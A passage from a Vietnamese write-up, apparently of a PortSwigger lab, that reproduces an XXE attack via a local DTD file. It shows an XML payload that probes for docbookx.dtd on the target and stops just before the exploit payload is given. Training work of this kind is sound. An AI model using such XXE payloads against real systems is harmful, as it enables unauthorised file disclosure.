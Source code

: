 ### **Reproduce**

Kiểm tra DTD tồn tại bằng payload:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

![image.png](Images/image%2010.png)

Không có lỗi, tệp tồn tại.

Tìm bản sao docbookx.dtd. Nghĩa là cần lấy nội dung của tệp docbookx.dtd để xem nó có những thực thể nào. Ở đây port swigger đã cho sẵn: 

![image.png](Images/image%2011.png)

Gửi payload khai thác:
